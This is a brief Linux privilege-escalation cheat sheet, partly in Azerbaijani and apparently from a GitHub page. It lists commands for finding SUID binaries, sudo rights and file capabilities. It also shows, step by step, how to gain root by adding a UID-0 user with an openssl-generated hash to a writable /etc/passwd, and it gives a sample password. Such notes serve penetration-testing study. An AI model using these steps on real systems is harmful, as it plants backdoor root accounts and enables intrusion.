 ## SHOWING SUID
    find / -perm -u=s -type f 2>/dev/null

## ROOTA QALXMAQ etc/passwd -e yaza biliriksə
Yaratma qaydası

    user7@polobox:/$ openssl passwd -1
    Password:
    Verifying - Password:
    $1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
    user7@polobox:/$ ^C
    user7@polobox:/$ nano /etc/passwd
    user7@polobox:/$ su dilruba

  Nəticə

    dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash
    passwd----dil1123

Sudo icazələrini yoxlamaq
   
    sudo -l

Getcap
    getcap -r / 2>/dev/null
